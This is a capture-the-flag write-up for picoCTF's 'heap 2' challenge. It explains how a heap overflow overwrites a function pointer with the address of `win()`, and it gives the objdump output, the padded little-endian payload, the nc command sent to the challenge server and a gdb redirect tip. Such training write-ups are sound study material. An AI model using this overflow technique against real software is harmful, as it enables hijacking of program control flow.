 # heap 2 #

> ## Description ##
>
> Can you handle function pointers? Download the binary here. Download
> [the source](chall.c) here.
>
> Additional details will be available after launching your challenge
> instance.
>
> ## Hints ##
>
> Are you doing the right endianness?

## Solution ##

The application is very convenient: A menu item allows to print the
two variables of interest. The goal is to make the variable `x` point
to the `win()` function. To that end, we first need to find the right
length of string to enter in order to overwrite `x`. Secondly, we need
the address of `win()`. The latter we can get with

``` bash
objdump -Ds ./chall | grep -A 6 '<win>'
```

``` assembly
00000000004011a0 <win>:
  4011a0:       53                      push   %rbx
  4011a1:       48 83 ec 40             sub    $0x40,%rsp
  4011a5:       bf 30 20 40 00          mov    $0x402030,%edi
  4011aa:       be 39 20 40 00          mov    $0x402039,%esi
  4011af:       e8 cc fe ff ff          call   401080 <fopen@plt>
  4011b4:       48 89 e3                mov    %rsp,%rbx
  ...
```

The bytes of the address need to be written backwards to memory,
i.e. we feed in `0xa0114000` so that it exactly overwrites `bico`, which is
the initial value of `x`. Some attempts later, the right length is
found with the local executable, and using 

``` bash
(
	echo 2;
	echo -e aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\\xa0\\x11\\x40\\x00;
	echo 4
) | nc mimas.picoctf.net 58868
```

we get the flag.

## Learnings ##

* Input redirect in `gdb` works like this:

	``` gdb
	r < <( \
		echo 2; \
		echo -e aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\\xa0\\x11\\x40\\x00; \
		echo 4 \
		)
	```
